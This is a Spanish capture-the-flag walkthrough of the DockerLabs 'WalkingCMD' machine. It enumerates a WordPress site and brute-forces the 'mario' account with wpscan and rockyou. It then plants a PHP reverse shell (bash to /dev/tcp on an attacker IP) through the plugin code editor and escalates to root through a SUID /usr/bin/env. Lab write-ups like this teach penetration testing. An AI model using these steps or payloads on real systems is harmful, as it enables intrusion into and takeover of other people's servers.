




# WalkingCMD - DockerLabs

## Reconocimiento

Vamos a realizar un escaneo de puertos para identificar los servicios que están corriendo en la máquina.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Ahora que sabemos que el puerto 80 está abierto, podemos realizar un escaneo más detallado para identificar la versión del servicio

```bash
nmap -sCV -p80 172.17.0.2

PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later
|_http-title: Apache2 Debian Default Page: It works
```

Vemos que el puerto 80 está corriendo un servidor web Apache con PHP.

Hagamos un escaneo de directorios para ver si encontramos algo interesante.

```bash
nmap --script http-enum -p80 172.17.0.2

PORT   STATE SERVICE
80/tcp open  http
```

Ahora busquemos por archivos interesantes en el servidor web.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak,bak,tar --exclude-length 10701

/wordpress            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]

wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 404 --hl 368 -u "http://172.17.0.2/FUZZ"

000000587:   301        0 L      0 W        0 Ch        "wordpress"
```

Vemos que hay un directorio llamado `wordpress`. Vamos a acceder a él.

http://172.17.0.2/wordpress/



Sigamos enumerando directorios ahora en /wordpress

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 404 --hl 368 -u "http://172.17.0.2/wordpress/FUZZ"

000000124:   301        0 L      0 W        0 Ch        "0"  
000000053:   302        0 L      0 W        0 Ch        "login"
000000259:   302        0 L      0 W        0 Ch        "admin" 
000000241:   200        0 L      0 W        0 Ch        "wp-content" 
000000587:   301        0 L      0 W        0 Ch        "wordpress"                
000002024:   301        0 L      0 W        0 Ch        "'"
000002927:   302        0 L      0 W        0 Ch        "dashboard"
000003790:   301        0 L      0 W        0 Ch        "%20"
```

Vemos que hay un directorio llamado `wp-content`. Vamos a acceder a él y encontramos que no hay nada interesante.
En el resto nos lleva al panel de login de WordPress.

También buscamos archivos acabados en .php

```bash
wfuzz -t 200 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --hc 404 --hl 368 -u "http://172.17.0.2/wordpress/FUZZ.php"

000000015:   301        0 L      0 W        0 Ch        "index"
000000475:   200        126 L    527 W      8204 Ch     "wp-login"           
000005002:   200        4 L      13 W       136 Ch      "wp-trackback"       
000017049:   405        0 L      6 W        42 Ch       "xmlrpc"
000046026:   302        0 L      0 W        0 Ch        "wp-signup"
```

Con whatweb sacamos la siguiente información:

```bash
whatweb 'http://172.17.0.2/wordpress/'

http://172.17.0.2/wordpress/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], MetaGenerator[WordPress 7.0], PHP[8.2.7], Script[application/json,importmap,module,speculationrules], Title[Web Invulnerable], UncommonHeaders[link], WordPress[7.0], X-Powered-By[PHP/8.2.7]
```

Al meternos a `xmlrpc.php` vemos el siguiente mensaje:

```html
XML-RPC server accepts POST requests only.
```

Dentro de `wp-traceback.php` vemos el siguiente mensaje:

```html
<response>
  <error>1</error>
  <message>Necesito un ID para que esto funcione.</message>
</response>
```

Podríamos intentar hacer un ataque de fuerza bruta con el id necesario.

Luego, con `wp-signup.php` no podemos crear un nuevo usuario pues está deshabilitado.

xmlrpc.php es un archivo sensible que permite realizar ataques de fuerza bruta para obtener credenciales válidas. Para ello, se debe enviar una solicitud POST con un archivo XML que tenga la estructura adecuada para el ataque.

Haremos lo siguiente, crearemos un archivo llamado `file.xml` con la siguiente estructura:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
   <methodName>wp.getUsersBlogs</methodName>
   <params>
      <param>
         <value>usuario</value>
      </param>
      <param>
         <value>contraseña</value>
      </param>
   </params>
</methodCall>
```

```bash
curl -s -X POST -d @file.xml http://172.17.0.2/wordpress/xmlrpc.php
```

Nos dice que el usuario o la contraseña son incorrectos. Esto nos indica que podemos realizar un ataque de fuerza bruta para obtener credenciales válidas.

También usamos wpscan para enumerar los plugins y usuarios de WordPress.

```bash
wpscan --url http://172.17.0.2/wordpress -e ap
```

Pero no encuentra nada.

Llego a la conclusión de que debo poner esto en la URL:
http://172.17.0.2/wordpress/wp-trackback.php?p=1 ya que se referia a poner un id en la URL.

Y nos lleva a http://172.17.0.2/wordpress/index.php/2024/03/20/hola-mundo/ en el que hay un post con un comentario de un usuario llamado `mario`. Ahora que tenemos un usuario, podemos hacer un ataque de fuerza bruta para obtener la contraseña de `mario` usando el archivo `file.xml` que creamos anteriormente.




Utilizaremos wpscan para realizar un ataque de fuerza bruta con el usuario `mario` y un diccionario de contraseñas.

```bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt

Valid Combinations Found:
 | Username: mario, Password: love
```

Al loggearnos nos sale este mensaje:

```
 Verificación del correo electrónico de administración

Por favor, verifica que sigue siendo correcto el correo electrónico de administración de esta web. ¿Por qué es importante esto? (abre en una nueva pestaña)	

Correo electrónico actual de administración: prueba@gmail.com	

Este correo electrónico puede ser diferente de tu dirección de correo electrónico personal. 
```

Le damos a actualizar correo electrónico y no lleva ya al panel de administración de WordPress.



Ahora que tenemos acceso al panel de administración de WordPress, podemos buscar vulnerabilidades en los plugins instalados.

```
Akismet Anti-spam: Spam Protection Versión 5.3.1
Hello Dolly Versión 1.7.2
Theme Editor Versión 2.8
```

Nos metemos a Plugins > Plugin Code Editor y metemos codigo PHP malicioso en el plugin `Theme Editor` para obtener una reverse shell.



```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'");
?>
```

```bash
sudo nc -lvnp 443
```

Actualizamos la pestaña y establece una conexión a nuestro equipo atacante.

```bash
www-data@8a64e332a4cb:~/html/wordpress/wp-admin$ 
```

Hacemos un tratamiento de la TTY:

```bash
script /dev/null -c bash
CTRL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

Vamos a buscar la escalada de privilegios:

```bash
cat /etc/os-release 
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"

sudo -l
bash: sudo: command not found

su - mario
su: user mario does not exist or the user entry does not contain all the required fields

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

su
# Pide contraseña

find / -perm -4000 2>/dev/null

/usr/bin/env
```

Encontramos que el binario `/usr/bin/env` tiene el bit SUID activado. Esto significa que podemos ejecutar este binario con los privilegios del propietario, que en este caso es root.

```bash
env /bin/sh -p
# whoami
root
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
